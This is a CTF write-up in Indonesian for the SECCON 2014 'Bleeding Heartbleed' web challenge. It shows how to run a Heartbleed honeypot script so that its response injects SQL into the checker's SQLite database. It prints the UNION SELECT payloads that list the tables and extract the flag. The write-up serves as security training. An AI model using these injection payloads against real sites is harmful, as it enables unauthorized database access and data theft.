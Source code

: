 ```yaml
---
id: 413
title: Bleeding “Heartbleed” Web 300 pts Seccon CTF
date: 2014-12-09T10:15:04+00:00
author: abdilahrf
layout: post
guid: http://www.hasnydes.us/?p=413
permalink: /2014/12/bleeding-heartbleed-test-web-300-pts-seccon-ctf/
categories: Web Exploitation
tags: [SecconCTF]
---
```

> <http://bleeding.pwn.seccon.jp/>

website check heartbleed , yang datanya di simpan ke database coba kita scan

> 173.194.65.100:443
> 
>     Connecting...
>     Sending Client Hello...
>     Waiting for Server Hello...
>      ... received message: type = 22, ver = 0302, length = 61
>      ... received message: type = 22, ver = 0302, length = 3852
>      ... received message: type = 22, ver = 0302, length = 331
>      ... received message: type = 22, ver = 0302, length = 4
>     Sending heartbeat request...
>     
>     

<!--more-->

view-source

> <pre><span class="pl-c">&lt;!-- DEBUG: INSERT OK. TIME=1417889356 --&gt;
</span></pre>

INSERT OK berarti masuk ke database, sepertinya ini ada sql injection cara kita inject dengan membuat honeypot vulnerability Heartbleed

gunakan script <a href="packetstormsecurity.com/files/126068/hb_honeypot.pl.txt" target="_blank">packetstormsecurity.com/files/126068/hb_honeypot.pl.txt</a> untuk membuat server anda menjadi vuln heartpbleed ,untuk bisa mengirimkan pesan inject nya jalankan honeypot dan scan ip anda

&nbsp;

> ifconfig
> 
> 120.33.21.66
> 
> perl hb_honeypot.pl
> 
> Scan  120.33.21.66:443 < via website
> 
> <span style="text-decoration: underline;">DATABASE ERROR!!!</span> <tt>near ".": syntax error</tt>
> 
> select time from results where result=&#8217;Connecting&#8230; Sending Client Hello&#8230; Waiting for Server Hello&#8230; &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 22, ver = 0301, length = 1 Sending heartbeat request&#8230; &#8230; received message: type = 24, ver = 0301, length = 249
> 
> Received heartbeat response: 09809\*)(\*)(76&^%&(*&^7657332
> 
> Hi there! Your scan has been logged! Have no fear, this is for research only &#8212; We&#8217;re never gonna give you up, never gonna let you down! WARNING: server returned more data than it should &#8211; server is vulnerable! &#8216;;

Kita coba lagi inject

> perl hb_honeypot.pl  &#8216; UNION SELECT 1337 WHERE 1=1 OR &#8216;1&#8217; LIKE &#8216;
> 
> view source
> 
> <span class="pl-c"><!&#8211; DEBUG: INSERT OK. TIME=1337 &#8211;></span>

untuk mendapatkan list table

> perl hb\_honeypot.pl &#8216; UNION SELECT group\_concat(name) FROM sqlite_master WHERE type=&#8217;table&#8217;;&#8211;
> 
> <pre><span class="pl-c">view source
&lt;!-- DEBUG: INSERT OK. TIME=results,ssFLGss,ttDMYtt --&gt;

</span></pre>

ambil kolom flag dari tabel results

> perl hb_honeypot.pl &#8216; UNION SELECT flag from ssFLGss WHERE 1=1 OR &#8216;1&#8217; LIKE &#8216;
> 
> view source
> 
>     <!-- DEBUG: INSERT OK. TIME=SECCON{IknewIt!SQLiteAgain!!!} -->
>     
>     

Other Source :

https://github.com/ctfs/write-ups/tree/master/seccon-ctf-2014/bleeding-heartbleed-test-web

<http://tasteless.eu/2014/12/seccon-ctf-2014-online-qualifications-web300-writeup/>

<div class='et_post_video'>
</div>
